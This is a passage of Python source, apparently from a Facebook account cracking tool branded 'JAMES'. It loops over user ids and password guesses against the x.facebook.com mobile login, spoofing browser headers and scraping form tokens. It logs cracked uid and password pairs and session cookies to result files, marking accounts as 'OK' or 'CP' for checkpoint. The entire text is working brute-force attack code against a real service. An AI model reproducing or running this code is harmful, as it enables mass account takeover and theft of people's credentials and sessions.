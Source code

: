     global loop, uas, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://x.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "x.facebook.com", "referer": "https://x.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://x.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://x.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fx.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[JAMES-OK] %s | %s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s|%s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s | %s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass

if __name__=='__main__':
	os.system("git pull")
	___menu___()

